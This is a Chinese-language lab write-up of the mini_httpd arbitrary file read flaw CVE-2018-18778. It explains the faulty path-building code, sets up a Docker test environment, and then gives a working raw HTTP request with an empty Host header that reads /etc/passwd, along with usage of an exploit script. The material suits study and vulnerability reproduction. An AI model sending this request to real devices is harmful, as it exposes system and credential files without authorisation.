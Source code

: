 # mini_httpd任意文件读取漏洞（CVE-2018-18778）

Mini_httpd是一个微型的Http服务器，在占用系统资源较小的情况下可以保持一定程度的性能（约为Apache的90%），因此广泛被各类IOT（路由器，交换器，摄像头等）作为嵌入式服务器。而包括华为，zyxel，海康威视，树莓派等在内的厂商的旗下设备都曾采用Mini_httpd组件。

在mini_httpd开启虚拟主机模式的情况下，用户请求`http://HOST/FILE`将会访问到当前目录下的`HOST/FILE`文件。

```c
(void) snprintf( vfile, sizeof(vfile), "%s/%s", req_hostname, f );
```

见上述代码，分析如下：

- 当HOST=`example.com`、FILE=`index.html`的时候，上述语句结果为`example.com/index.html`，文件正常读取。
- 当HOST为空、FILE=`etc/passwd`的时候，上述语句结果为`/etc/passwd`。

后者被作为绝对路径，于是读取到了`/etc/passwd`，造成任意文件读取漏洞。

## 环境搭建

执行如下命令启动mini_httpd 1.29：

```
docker-compose up -d
```

环境启动后，访问`http://your-ip:8080`即可看到Web页面。

## 漏洞复现

发送请求是将Host置空，PATH的值是文件绝对路径：

```
GET /etc/passwd HTTP/1.1
Host: 
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close


```

成功读取文件：

![](1.png)

## exp使用
```
python exp.py -u <URL+文件绝对路径>
```

![image](https://user-images.githubusercontent.com/91834414/228122108-81865a40-7101-4938-bd27-23648f72156c.png)
